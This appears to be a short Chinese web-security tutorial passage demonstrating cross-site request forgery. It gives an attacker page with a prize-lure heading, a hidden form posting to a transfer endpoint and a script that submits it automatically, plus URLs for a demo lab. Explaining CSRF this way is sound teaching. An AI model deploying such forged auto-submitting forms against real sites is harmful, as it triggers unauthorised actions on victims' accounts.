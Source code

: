 攻击者创建一个网页，这个网页包含一个自动提交的表单，目标是受害者网站的转账API。

```html
<body>
  <h1>你中奖了!点击按钮领取!</h1>
  <form action="/csrf/action" method="POST" id="fakeForm">
    <button type="submit">领取奖品！</button>
  </form>
  <script src="./csrf.js"></script>
</body>
```

```javascript
// 自动提交表单
document.getElementById('fakeForm').submit();
```

**攻击示例：**

```
http://wanner.vip/csrf/login // 先登录
http://wanner.vip:8000/html/csrf.html // 访问
```

**攻击路径：**

![攻击路径](./images/csrf.png "CSRF攻击路径")
